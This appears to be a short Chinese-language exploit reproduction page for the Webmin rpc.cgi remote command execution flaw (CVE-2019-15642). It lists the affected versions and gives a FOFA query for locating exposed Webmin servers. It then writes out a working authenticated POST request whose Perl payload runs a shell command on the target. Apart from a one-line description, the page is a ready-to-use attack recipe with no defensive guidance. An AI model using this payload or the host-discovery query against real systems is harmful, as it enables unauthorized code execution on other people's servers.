

# Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

```
Webmin < 1.920
```

## FOFA

```
app="webmin"
```

## 漏洞复现

登录页面


登录后发送请求包

```
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

